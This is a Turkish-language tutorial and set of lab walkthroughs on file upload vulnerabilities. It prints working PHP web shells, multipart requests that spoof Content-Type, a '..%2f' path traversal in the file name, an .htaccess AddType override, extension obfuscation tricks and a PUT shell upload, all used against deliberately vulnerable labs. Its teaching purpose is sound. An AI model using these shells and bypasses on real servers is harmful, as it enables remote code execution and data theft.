


# **File Upload Zafiyetleri**

Bu bölümde, dosya yüklemede kullanılan basit fonksiyonların kritik seviyede ataklar için nasıl güçlü bir vektör olarak kullanılacağını öğreneceksiniz. Sana web shell yükleyebilmen, zafiyetli web serverın kontrolünü tamamen alman için yaygın defans mekanizmalarını nasıl bypass edeceğini göstereceğiz.


# **File Upload Zafiyetleri Nedir ?**

File upload zafiyetleri, web server, kullanıcıdan isim, dosya türü, içeriği ve boyutu gibi bilgileri yeterli doğrulama yapmadan kendi dosya sistemine dosya yüklemesine izin verdiğinde oluşur. Önlem için alınan sınırlamaları düzgün bir şekilde yürürlüğe koymadaki başarısızlık bile, en temel resim yükleme fonksiyonunun resim yerine keyfi bi şekilde tehlikeli dosya yüklemelerinde kullanılabileceği anlamına gelir. Bu da uzaktan kod çalıştırmayı etkinleştirebilecek server taraflı script dosyalarını içeri dahil etmeyle sonuçlanabilir.

Bazı durumlarda dosya yükleme aksiyonunun kendisi bile zarar vermeye sebebiyet verebilir. Diğer ataklar HTTP isteklerini takip etmeyi gerektirir dosyanın yerini bulabilmek için. Yani serverın dosyayı çalıştırmasını tetiklemek için.

# **File Upload Zafiyetlerinin Etkisi Nedir ?**

Dosya yükleme zafiyetlerinin etkisi genelde 2 anahtar faktöre bağlıdır:
- Web sitesinin dosyanın boyutu, tipi, içeriği ve bunun gibi şeyler içinden hangisini düzgün bir şekilde doğrulayamadığı
- Dosya başarıyla yüklenir yüklenmez hani kısıtlamaların uygulandığı

En kötü senaryo, dosyanın tipinin düzgün bir şekilde doğrulanmadığıdır  ve server konfigürasyonun belirli dosya tiplerinin (.php veya .jsp gibi) kod olarak çalıştırabilmesine izin verdiği senaryodur. Bu durumda saldırgan web shell olarak işlenen, server-taraflı kod dosyasını yükleme imkanı bulur. Bu da saldırgana serverın kontrolünü tamamen ele geçirmesine fırsat verir. Eğer dosya ismi düzgün bir şekilde doğrulanmadıysa, saldırgan basit bir şekilde aynı dosya ismi ile kritik dosyaların üzerine yazabilir. Hatta server directory traversal'a karşı zafiyetli ise saldırgan beklenmeyen konumlara dosyalarını yükleyebilir.

Dosya boyutunun beklenen boyutta olduğunu karar vermedeki başarısızlık Denial-of-service(DoS) atağına sebebiyet verebilir. Yani saldırgan mevcut disk alanını doldurabilir.

# **File Upload Zafiyetleri Nasıl Ortaya Çıkar ?**

Oldukça açık tehlikeler düşünüldüğünde kullanıcıların hangi dosyaları yükleyeceğine izin veren, hiç de sınırlamaya sahip olmayan bu vahşi alandaki websiteleri için bu durum nadirdir. Daha yaygın olarak, developerlar sıkı güvenlikli olduğuna inandığı doğrulamaları uygularlar. Fakat bunlar ya kalıtsal olarak sıkıntılıdır ya da kolayca bypass edilebilir.

Örneğin, tehlikeli dosya tiplerini blacklist olarak doğrulama işlemine tabi tutabilir fakat dosya uzantıları kontrol edildiğinde parsing (ayrıştırma) işlemi tutarsızlıklarını hesaba katmada başarısız olurlar. Herhangi bir blacklist de olduğu gibi tehlike yaratabilecek, pek bilinmeyen dosya tiplerini farkında olmadan kolayca gözden kaçırabilirler.

Sonuç olarak, sağlam doğrulama önlemleri bile web sitesini oluşturan ana bilgisayarlar ve dizinler ağında tutarsız bir şekilde uygulanabilir ve bu da istismar edilebilecek tutarsızlıklara neden olabilir.

Bu konunun ilerleyen kısımlarında, uzaktan kod yürütmek amacıyla bir web shell yüklemek için bu kusurların bir kısmından nasıl yararlanacağınızı öğreteceğiz. Hatta öğrendiklerinizi bazı gerçekçi hedeflere karşı uygulayabilmeniz için bazı etkileşimli, kasıtlı olarak savunmasız laboratuvarlar bile oluşturduk.

# **Web Serverlar Static Dosyalar için İstekleri Nasıl İşliyor ?**

Dosya yükleme zafiyetlerini nasıl exploit edeceğimize bakmadan önce serverların statik dosyalar için istekleri nasıl işlediğini temel olarak anlamak önemli.

Zamanında, web siteleri neredeyse tamamı statik dosya olan yapıdan oluşuyordu. İstek yapıldığı zaman kullanıcılara servis edilirdi bu dosyalar. Sonuç olarak, her bir istekdeki path, serverın dosya sistemi üzerindeki dizin ve dosya hiyerarşisi ile bire bir eşleşirdi. Günümüzde, web sitelerinin artan dinamikliği ile path istekleri artık dosya sistemiyle direkt eşleşmiyor. Yine de, web serverları bazı statik dosyalar için isteklerle ilgileniyor. Bunlara css, resim vb. dosyalar dahil.

Bu statik dosyaları işleme süreci hala büyük oranda aynı. Tam bu noktada server, dosya uzantısını tespit etmek için istek yapılan path'i ayrıştırıyor. Daha sonra istek yapılan dosyanın türünü belirlemek için bunu kullanıyor. Tipik olarak, uzantılar ve MIME tipleri arasında önceden konfigüre edilmiş eşleşme listesini karşılaştırıyor. Daha sonra olacaklar dosya tipi ve server konfigürasyonuna bağlı.

- Eğer resim veya static HTML sayfası gibi dosya tipi çalıştırılabilir değilse server bunu HTTP cevabı olarak kullanıcıya sadece dosyanın içeriğini gönderiyor.
- Eğer dosya tipi çalıştırılabilir (PHP dosyası gibi) ise  ve server bu tip dosyaları çalıştırmak için konfigüre edilmiş ise script'i çalıştırmadan önce kullanıcının HTTP isteğindeki header ve parametrelere bağlı olarak değişkenler atar. Ortaya çıkan çıktı daha sonra istemciye bir HTTP cevabında gönderilebilir.
- Eğer dosya tipi çalıştırılabilir ise fakat server bu tip dosyaları çalıştırmak için konfigüre edilmemiş ise genel olarak cevapta hata dönecektir. Ancak bazı durumlarda, dosyanın içeriği kullanıcıya düz metin olarak da sunulabilir. Bu tarz yanlış konfigürasyonlar  ara sıra kaynak kodu ve diğer hassas bilgileri sızdırmak için exploit edilebilir. 

`Content-Type response headerı, sunucunun ne tür bir dosya sunduğunu düşündüğüne ilişkin ipuçları sağlayabilir. Bu başlık uygulama kodu tarafından açıkça ayarlanmadıysa, normalde dosya uzantısı/MIME türü eşlemesinin sonucunu içerir.`

# **Web Shell Almak İçin Sınırlama Konulmamış Dosya Yüklemesini Exploit Etme**

Güvenlik açısından bakarsak en kötü senaryo, web sitesinin PHP, Java, Python gibi server taraflı scriptleri  yüklemeye izin vermesi ve onları kod olarak çalıştırılması için konfigüre edilmiş olmasıdır. 

`Web shell, saldırganların doğru endpointe HTTP istekleri göndererek uzaktaki server üzerinde keyfi komutlar çalıştırmasına izin verir.`

Eğer başarılı bir şekilde web shell yükleyebilirsen, efektif bir şekilde serverın kontrolünü tamamen ele alabilirsiniz. Bu da şu demektir: keyfi dosyaları okuyabilir, yazabilir, hassas verileri sızdırabilir hatta network dışından erişilemeyen diğer serverlara ve dahili altyapılara karşı pivot ataklar gerçekleştirebilirsiniz. Örneğin aşağıdaki tek satırlık PHP kodu, server dosya sistemi üzerinde keyfi dosyaları okumaya yarar.

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Bir kez yüklendiğinde, zararlı dosya için gönderilecek istek, cevapta hedeflenmiş dosyanın içeriğini döndürecektir.

Daha yetenekli bir web shell aşağıdaki gibi gözükebilir:

```php
<?php echo system($_GET['command']); ?>
```

Bu script, keyfi sistem komutlarını, system fonksiyonuna argüman olarak verecektir. Buradaki sorgu parametreside <b>command</b>'dir. Aşağıdaki gibi gözükür:

```http
GET /example/exploit.php?command=id HTTP/1.1
```

### **Lab Çözümü**


Yukarıdaki resimde, kullanıcı adı şifre ile giriş yaptığımızda, profil sayfamızda profil resmi yüklemek için bir avatar butonu görüyoruz. Lab çözümüne yönelik kendi hazırlamış olduğumuz zararlı php dosyasını web servera yükleyelim:

```php
<?php

echo file_get_contents('/home/carlos/secret');

?>
```


Yukarıdaki resimde başarılı bir şekilde yüklediğimizi ve avatars klasörü altında shell.php adıyla yüklendiğini görebiliyoruz. Tarayıcımızdan resmin  yüklenmiş olduğu linki kopyalayıp o sayfaya gittiğimizde aşağıdaki resimde secret içeriğini görebiliyoruz.


# **Dosya Yüklemesinin Kusurlu Doğrulamasını Exploit Etme**

Bir önceki lab çözümünde gördüğümüz gibi vahşi doğada file upload için hiç korumaya sahip olmayan web sitesiyle karşılaşman muhtemel değil. Fakat yine de yerinde alınan önlemler tam doğru olmayabiliyor.

Bu bölümde web shell üzerinden uzaktan kod çalıştırabilmek için web serverların dosya yüklemelerini nasıl doğruladığını ve filtrelediğini (sanitize işlemi de denir buna), aynı zamanda bunları nasıl exploit edebileceğimize bakacağız.

## Kusurlu Dosya Tipi Doğrulaması

HTML formlarında submitting (gönderme - yani form üzerinde gerekli bilgileri doldurdunuz, yüklenecek dosyaları seçtiniz ve bu bilgileri servera gönderiyorsunuz) yaptığınızda senin tarayıcın `'application/x-www-form-url-encoded'` değerine sahip olan `'Content-Type'` header'ı ile POST isteği içerisinde formda doldurduğun verileri gönderir. İsim, adres, telefon numarası vb. basit `'text'` bilgileri gönderdin, buraya kadar sıkıntı yok. Fakat büyük resim dosyaları veya PDF dokümanları gibi geniş çaplı binary veriler gönderirken bu uygun değildir. Bu durumda `'Content-Type: multipart/form-data'` tercih edilir. 

Resim yüklemek için resmin açıklamasını, kullanıcı adı girdiğiniz alanları içeren bir form düşününüz. Web servera gönderdiğiniz bu form aşağıdaki istek gibi görülebilir:

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

Yukarıda gördüğünüz gibi mesaj içeriği, formun inputlarının (kullanıcı adı, açıklama vb.) herbiri ayrı bölümlere ayrılmıştır. Her bölüm ilgili olduğu input alanı hakkında bazı temel bilgileri sağlayan `'Content-Disposition'` header içerir. Bu her bölüm kendi `'Content-Type'` headerını içerir. Ki bu da servera bağlı olduğu input kullanılarak gönderilen verinin `'MIME'` türünü söyler.

Dosya yükleme işleminde doğrulama yapmanın bir yolu da bu inputa özel `'Content-Type'` headerını, umulan `'MIME'` türüyle eşleşmesini kontrol etmektir. Eğer server sadece resim dosyalarını bekliyorsa, örneğin, `'image/jpeg'` ve `'image/png'` türlerine izin verebilir. Problemler, bu headerın değerine üstü kapalı bir şekilde güvenildiğinde ortaya çıkabilir. Eğer dosyanın içeriğinin tam olarak desteklenen `'MIME'` türü ile eşleşip eşleşmediği kontrol edilmezse `'Burp Repeater'` gibi araçlar kullanılarak kolayca bypass edilebilir.

### **Lab Çözümü**


Direkt php uzantılı dosya yüklediğimiz zaman web servera giden istek içerisinde `'Content-Type'` headerı ve web serverdan dönen cevap aşağıdaki gibidir:

```http
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="avatar"; filename="abc.php"
Content-Type: application/octet-stream
```
**&#8659; RESPONSE &#8659;**

```http
HTTP/1.1 403 Forbidden
Date: Tue, 21 Dec 2021 08:06:08 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 240

Sorry, file type application/octet-stream is not allowed
        Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Yukarıda dönen cevapta (response) gördüğünüz üzere `'Content-Type:'` değeri ya **image/jpeg** ya da **image/png** olmalıdır diyor. O zaman bu değeri istediği gibi değiştiririz.

```
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="avatar"; filename="abc.php"
Content-Type: image/jpeg

<?php
system('id');
?>
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="user"

wiener
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="csrf"

yyqgBGBlW4hJiWrb7ap3l7qOVVj3zJkM
-----------------------------392026745735502370563725067926--
```

**&#8659; RESPONSE &#8659;**

```
HTTP/1.1 200 OK
Date: Tue, 21 Dec 2021 08:00:56 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 130

The file avatars/abc.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Gördüğünüz gibi başarılı  bir şekilde yükledik. Resmin yüklendiği endpoint'i ziyaret ederek sonuç elde edebiliriz. Resmin yüklendiği endpoint'i nasıl bulacaz diyorsanız , avatar resminize sağ tık yapıp resim url'ini kopyalayıp tarayıcınızdan o url'e gidin.

## Kullanıcının Erişebildiği Dizin İçerisinde Dosya Çalıştırılmasını Önleme

İlk bakışta yüklenecek tehlikeli dosya tiplerini önlemek daha iyi görülürken, ağ üzerinden akacak herhangi bir scriptin server tarafından çalıştırılmasını engellemek ikinci bir savunmadır. 

Önlem olarak serverlar genelde yalnızca çalıştırılmak için açıkça konfigüre edilmiş `'MIME Type'` ların olduğu scriptleri çalıştırırlar. Aksi takdirde bir tür hata mesajı döndürürler, bazı durumlarda ise düz metin olarak kodun çıktısını dönerler.

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```
**&#8659; RESPONSE &#8659;**

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?> 
```

Bu davranış kendi başına ilginçtir, kaynak kodu sızdırmak için bir kapı açabileceği gibi web shell oluşturma girişimlerini geçersiz kılar. 

Bu tür konfigürasyonlar dizinler arasında farklılık gösterir. Kullanıcılara ait dosyaların yüklendiği dizin son kullanıcılar tarafından erişilemeyeceği varsayılan dosya sistemi üzerindeki diğer konumlardan muhtemelen daha katı kontrollere sahiptir. Kullanıcı tarafından sağlanan dosyaları içermemesi gereken farklı bir dizine scripti yüklemenin bir yolunu bulabilirseniz, sonuçta sunucu scriptinizi çalıştırabilir.

__NOT__ ==> Web serverlar sıklıkla `'multipart/form-data'` isteklerinin içerisindeki filename alanını kullanır dosyanın kaydedileceği yeri ve dosya adını belirlemek için.

### **Lab Çözümü**

Yukarıda not kısmında dedik ki, web serverlar filename kısmına bakar ve dosyanın yükleneceği konumu genelde o şekilde belirler. Bakalım öyle mi ?


Bizim mantığımıza göre yukarıdaki resimde ok işareti ile belirttiğim yerde `'avatars/asd.php'` kısmına dosyanın yüklendiğini belirtiyor. Resmin yüklendiği yer ise `'files/avatars/asd.php'`. Bu url'e gittiğimiz zaman bize sonuç olarak gönderdiğimiz payloadı (`'<?php system('cat /home/carlos/secret');?>'`) bize text olarak geri döndürüyor. Demek ki bu `'avatars'` dizini altındaki dosyaların çalıştırılmaması server tarafından konfigüre edilmiş. Peki bir önceki dizin, yani `'files'` dizini altına bu kural uygulanmış mıdır ? Denemeden bilemeyiz :) Öyleyse deneyelim.


Yukarıdaki resime baktığımız zaman dosyamızın `'avatars/asd.php'` şeklinde yüklenmesini beklerken `'avatars/asd.php'` şeklinde bir önceki örnekteki gibi herhangi bir değişiklik olmamış gibi yüklenmiş. Web server filename içerisinde `''` gördüğü zaman bunu kaldırmış olamaz mı ? Test edelim.


Gördüğünüz gibi `'avatars/..asd.php'` endpointine yüklendiğini söyledi. `''` kısmını bypass edebilmek için bunun yerine `'..%2f'` kullanalım. Burda naptık, eğik çizgi işaretini url encode ile encode ettik. Web server kontrolünden geçer de url encode gördüğü zaman decode eder, istediğimiz yere yazar mantığı ile hareket ediyoruz.


Görüldüğü üzere `'avatars/asd.php'` endpointine başarılı bi şekilde yükledik. Bakalım bu sefer dosyamız çalıştırılacak mı ?


Scriptimiz çalışmış oldu. Payload kısmını lab çözümü için uygun şekilde değiştirirseniz istediğiniz cevabı alırsınız.

Ayrıca, tüm isteklerinizi aynı etki alanı(domain name) adına gönderebilseniz bile, bunun genellikle yük dengeleyici(load balancer) gibi bir tür ters(reverse) proxy sunucusuna işaret ettiğini unutmayın. İstekleriniz genellikle farklı şekilde yapılandırılabilen arka planda ek sunucular tarafından ele alınacaktır.

## Tehlikeli Dosya Türlerinin Yetersiz Blacklist Koruması
<!-- burada kaldım -->
Kullanıcıların zararlı scriptleri yüklemesini önlemenin yollarından biri `'.php'` gibi potansiyel olarak tehlikeli dosya uzantılarını karalisteye almaktır. Kod çalıştırmak için kullanılabilir her olası dosya uzantısı açıkça bloklamak zor olacağından pratikte bunu uygulamak kalıtsal olarak kusurludur. `'.php5, .shtml'` gibi vb. hala çalıştırılabilir, alternatif, daha az bilinen dosya uzantıları tarafından bazen bu gibi blacklistler bypass edilebilir.

### Server Konfigürasyonunu Override Etme (Üzerine Yazma İşlemi)

Bir önceki bölümde tartıştığımız gibi, serverlar tipik olarak bahsettiğimiz şey için konfigüre edilmedikçe dosyalar çalıştırılamayacak. Örneğin, client tarafından istek yapılan PHP dosyalarını çalıştırmadan önce developerlar `'/etc/apache2/apache2.conf'` dosyasına aşağıdaki direktifleri ekleyebilir:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Çoğu server, developerlara bir veya birden fazla global ayar eklemek, serverın genel konfigürasyon dosyasını override etmek için herbir dizin içerisine özel konfigürasyon dosyaları oluşturmasına izin verir. Örneğin, Apache serverları eğer böyle bir dosya mevcut olup o dizinde var ise `'.htaccess'` adındaki dosyadan dizine özel konfigürasyonları yükleyecek. Yani o konfigürasyonlar bu dosya hangi dizin altında belirtildiyse apache'nin global ayarlarını ezerek bu dizin için geçerli hale gelecek.

Buna benzer şekilde, developerlar `'web.config'` dosyasını kullanarak `'IIS'` serverlar üzerinde dizine özel konfigürasyonlar girebilirler. Buna aşağıdaki gibi direktifler dahildir, ki bu şu demek:json dosyaları kullanıcılara sunulsun.

```
<staticContent>
  <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent> 
```

Web serverları, eğer varsa bu tarz konfigürasyon dosyalarını kullanır. Fakat senin normal olarak HTTP isteklerini kullanarak onlara erişmene izin verilmez. Ancak, bazen serverların senin kendi zararlı konfigürasyon dosyalarını yüklemeni durduramadığı durumlarla karşılaşabilirsin. Bu durumda, senin yüklemeye ihtiyaç duyduğun dosya uzantısı blacklistde olsa bile serverı rastgele, özel bir dosya uzantısını yürütülebilir bir MIME türüyle eşlemesi için kandırabilirsin.

### **Lab Çözümü**

#### __Çözüm 1:__


Yukarıdaki resimde görüldüğü üzere php uzantılı bir dosya yüklemek istediğimizde serverdan dönen cevapta buna izin verilmediğini söylüyor. PHP dosyaları sadece `'.php'` uzantısına mı sahip olmak zorunda ?

* php
* php3
* php4
* php5
* phtm
* phtml

Bu uzantılarada sahip olabilir. Öyleyse fuzzing işlemi adı altında denemeler yapalım.


Resimde gördüğünüz üzere serverdan dönen status code(cevap kodu)lar `'403, 200'` şeklinde. 

* 403 ==> Erişim izni yok !
* 200 ==> Okey

anlamına geliyor. 200 dönenlerden herhangi birini denemeye kalkarsak:


başarılı bir şekilde yüklendiğini göreceğiz. Resmi upload ettiğimiz sayfaya gidersek de :


başarılı bir şekilde scriptimiz server tarafından çalıştırıldı ve cevap döndü.

#### __Çözüm 2:__


Çözüm-1' de `'.php'` uzantılı dosya yükleyemiyoruz ama farklı uzantıları yükleyebildiğimizi gördük. `'.htaccess'` uzantılı dosya da yükleyebiliriz o zaman. Dosyamızın içeriği şöyle olsun:

```
AddType application/x-httpd-php .salzek
```

`'.htaccess'` uzantılı dosyayı yüklemeyi başarırsak, yüklendiği dizinde web server uygulamasının (apache) global konfigürasyon ayarlarını ezerek bizim kendi yazdığımız konfigürasyon dosyalarını geçerli kılacak. Bu yukarıda yazmış olduğumuz konfigürasyon ayarıda, `'.salzek'` uzantılı `'application/x-httpd-php'` MIME türünde bir istek yapıldığı zaman istek yapılan dosyanın php dosyası olarak çalıştırılmasına izin verecek bir ayar. Böylece `'.php'` uzantılı dosyaları engelleyen blacklisti; blacklist içerisinde bulunmayan `'.salzek'` uzantılı bir dosya olarak yüklersek bypass edebileceğiz.



 `'.salzek'` uzantılı dosyamız başarıyla yüklendi.

 

Yukarıdaki resimde gördüğünüz üzere `'.salzek'` uzantılı dosyamızı web serverdan istedik ve o da bu isteği aldı, parse(ayrıştırmak) etti, kendi dizini içerisindeki bizim yüklemiş olduğumuz `'.htaccess'` dosyasını inceledi (apache'nin global ayarlarını önemsemeden) ve scriptimizi php interpretera yorumlatıp cevabı bize döndü. 

## Dosya Uzantılarını Obfuscate(Karmaşıklık) Etme

__Obfuscating__ : Kodu karmaşıklaştırma, anlaşılamaz, okunamaz hale getirme işlemine denir.

Çok kapsamlı bir blacklist olsa bile klasik obfuscating teknikleri kullanılarak blacklistler bypass edilebilir. Doğrulama kodunun büyük/küçük harfe duyarlı olduğunu ve `'exploit.pHp'` 'nin aslında bir `'.php'` dosyası olduğunu tanıyamadığını varsayalım. Dosya uzantısını blackliste bakarak kontrol ettikten sonra gelen kod, dosya uzantısını `'MIME'` türüne eşleyen koddur. Eğer bu kod `'case-sensitive'` (büyük-küçük harfe duyarlı) değilse bu tutarsızlık zararlı PHP dosyalarını yüklemenize izin verir.

Aşağıdaki teknikleri kullanarak da benzer sonuçlar elde edebilirsin:

* Birden çok uzantı kullanmak. Dosyayı parse etmek için kullanılan algoritmaya bağlı olarak şu isim de bir dosya ya `'PHP'` ya da `'JPG'` olarak yorumlanabilir: 
 "`exploit.php.jpg`"
* Noktalar, eğik çizgiler (/), ters eğik çizgiler (\\) için `'URL Encoding '` (veya double URL  Encoding) kullanmayı deneyin. Dosya uzantısı doğrulanırken değerin kodu decode edilmezse, ancak daha sonra sunucu tarafında kod decode edilirse, bu aksi takdirde engellenecek olan kötü amaçlı dosyaları yüklemenize de izin verebilir: `'exploit%2Ephp'`
* Dosya uzantısından önce URL-Encoded null byte(%00) karakterleri veya noktalı virgül ekle. Eğer doğrulama PHP, Java gibi yüksek seviyeli bir dil ile yazılmışsa fakat C/C++ dilindeki düşük seviye fonksiyonları kullanarak dosyayı işlerse, bu dosya sonuymuş gibi davranan tutarsızlıklara sebep olabilir:

```http
exploit.asp;.jpg
exploit.asp%00.jpg
```

* multibyte unicode karakterleri kullanmayı dene, belki unicode dönüşüm veya normalization işleminden sonra null bytelara ve noktaya dönüşebilir. Dosya adı UTF-8 string olarak ayrıştırılırsa xC0 x2E, xC4 xAE veya xC0 xAE gibi diziler x2E'ye çevirilebilir, ancak path içerisinde kullanılmadan önce daha sonradan ascii karakterlere dönüştürülür. 

Diğer defans türleri dosyayı çalıştırılabilir olmaktan korumak için tehlikeli dosya uzantılarını stripping (karakter ayıklama) veya replacing(karakterin yerini başka değerle değiştirme) işlemlerine tabi tutabilir. Bu işlemler transformation olarak da adlandırılır. Transformation işlemi recursively (tekrarlı) olarak yapılmazsa, yasaklanmış stringi sileceğinden arkasında hala geçerli dosya uzantısını bırakacağından yasaklanmış stringin pozisyonunu ona göre ayarlayabilirsiniz. Örneğin, aşağıdaki dosya isminden `'.php'` ifadesini strip işlemine tabi tuttuğunu ve sonucundan neler olacağını düşünelim:

exploit.pphphp

Tekrarlı bir şekilde olmadan strip işlemine tabi tutarsa php gördüğü stringi kaldıracağından `'exploit.php'` olarak işlemlerine devam edecektir.

Çoğu dosya uzantısını obfuscate etme yöntemlerinden bu sadece küçük bir seçimdi.

### **Lab Çözümü**

## Dosyanın İçeriğinin Kusurlu Biçimde Doğrulanması

Bir istek içerisinde belirtilen `'Content-Type:'` headerınına dolaylı olarak güvenmek yerine, daha güvenli sunucular, dosyanın içeriğinin gerçekte beklenenle eşleştiğini doğrulamaya çalışır. 

Resim yükleme fonksiyonunun olduğu bir durumda, server bir resmin esas olması gereken özelliklerini (onun boyutları gibi) doğrulamayı deneyebilir. Eğer  PHP script yüklemeyi denersen, örneğin, onun boyutu bir resim kadar olmayacak. Böylelikle server bunun bir resim olamayacağına karar verebilir ve yükleme işlemini bu sebepten   ötürü iptal edebilir. 

Buna benzer olarak, belirli dosya tipleri, onların header veya footer alanında onlara özel,has bir dizi bayt içerir. Bu, bir dosya yükleme işlemi gerçekleşeceğinde yüklenecek olan dosya türünün beklenilen dosya türü ile eşleşip eşleşmediğini belirlemede kullanılabilir. Yani signature ve fingerprint (imzalama) arıyoruz. Örneğin `'JPEG'` dosyaları her zaman `'FF D8 FF'` byteları ile başlar. Onun fingerprinti diyebiliriz. Resim içeriğine ise signature (imzalanmış) hali denebilir. 

Bu, dosya tipini belirlemenin daha güvenli bir yolu ama kusursuz değil. Özel araçlar kullanılarak `'ExifTool'`gibi, resmin metadatasının içerisine zararlı kod yerleştirilebilir. 

### **Lab Çözümü**

## Dosya Yükleme Race Conditions Exploit Etme

Modern frameworkler bu tür ataklara karşı çok sıkı derecede donanımlıdır. Onlar genellikle direkt olarak dosya sistemi üzerinde beklenen hedefe dosyaları yüklemez. Onun yerine, onlar ilk olarak geçici, sandbox bir dizine yüklemek gibi önlemler alıyor ve mevcutta olan dosyaların üzerine yazmayı önlemek için isimleri rastgele seçiyorlar. Daha sonra bu geçici dosya üzerinde doğrulama gerçekleştirir ve yalnızca güvenli olduğu kabul edildiğinde hedefine aktarır.

Bununla birlikte, geliştiriciler bazen herhangi bir frameworkden bağımsız olarak kendi dosya yükleme işlemlerini uygularlar. Bu işlem karmaşık olmakla kalmayıp saldırganın sağlam bir doğrulamayı bypass etmesini sağlayan `'race condition'` zafiyetlerine de yol açar. 

Örneğin, bazı web siteleri asıl dosya sistemine dosyaları direkt olarak yükler ve daha sonra bu dosya doğrulamadan geçemezse onu tekrar siler. `'malware'` (zararlı yazılım)ları kontrol etmek için  antivirüs yazılımları ve benzerlerine bağlı bir web sitesinde bu tipik bir davranıştır. Bu işlem sadece birkaç milisaniye sürer, fakat milisaniyede olsa bu dosya server dosya sistemi üzerinde var olacağından saldırganın hala bu dosyayı çalıştırma şansı vardır.

Bu tarz saldırılar öyle şak diye görülmez, gizlidir. Çok ince bir espri yaptım anlamadılar derlerya , işte ondandır :) 

Bi şekilde kaynak kodu sızdırmanın bir yolunu bulmadan, Blackbox (kapalı kutu), yani kaynak kodu görmeden, bu tür zafiyetleri tespit etmek oldukça zordur.

### **Lab Çözümü**

## Race conditions in URL-based file uploads

# **Kod Çalıştırmadan Dosya Yükleme Zafiyetlerini Exploit Etme**


Bu zamana kadar ki gördüğümüz örneklerde, kod çalıştırmak için server taraflı scriptleri yüklemeye çalıştık. Bu, güvenli olmayan dosya yükleme fonksiyonunun en ciddi sonucudur. Fakat bu zafiyetler başka şekillerde, hala daha exploit edilebiliyor. 

## Client Taraflı Zararlı Scriptleri Yükleme

Server tarafında scriptlerini çalıştıramasanda, hala daha bir şansın var.  Örneğin, `'HTML'` dosyaları veya `'SVG'` resimleri yükleyebilirseniz `'Stored XSS'` payloadları oluşturmak için `'script'` tagleri kullanabilirsiniz. 

Yüklenen dosya daha sonra diğer kullanıcılar tarafından ziyaret edilen bir sayfada görünürse, kullanıcıların tarayıcıları sayfayı oluşturmaya çalıştığında komut dosyasını (script) yürütür. `'same-origin policy'` sınırlamalarına dikkat et. Bu tarz ataklar, yalnızca,  yüklenen dosya yüklediğiniz kaynaktan sunuluyorsa işe yarar.

## Yüklenmiş Dosyaları Parse Etme Esnasındaki Zafiyetleri Exploit Etme

Eğer yüklenmiş dosya güvenli bir şekilde kaydedilmiş ve kullanıcılara sunulmuşsa, son çare farklı dosya formatlarının ayrıştırma ve dosyaları işlemesine özel zafiyetleri exploit etmeye çalışmaktır. Örneğin, Serverın Microsoft Office `'.doc'` veya `'.xls'` gibi `'XML'` tabanlı dosyaları parse ettiğini biliyorsun, bu `'XXE injection'` atakları için potansiyel  bir vektör olabilir. 

# **PUT Metodunu Kullanarak Dosyaları Yükleme**


Bazı web serverları `'PUT'` metodunu destekliyor olarak konfigüre edilmiş olabilir. Buna bir bakmaya değer. Eğer buna karşı savunma yapılmamışsa, Web interface (web sitesinin kodları olarak anlayın) üzerinde yükleme fonksiyonu olmasa bile zararlı dosyaları yüklemek için alternatif bir seçenektir.

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?> 
```

`PUT metodunun kullanılabilir olup olmadığını bulmak için Web Serverın farklı endpointlerine OPTIONS metodunu kullanarak istekler göndermeyi deneyebilirsin.`

# **Dosya Yükleme Zafiyetleri Nasıl Önlenir ?**


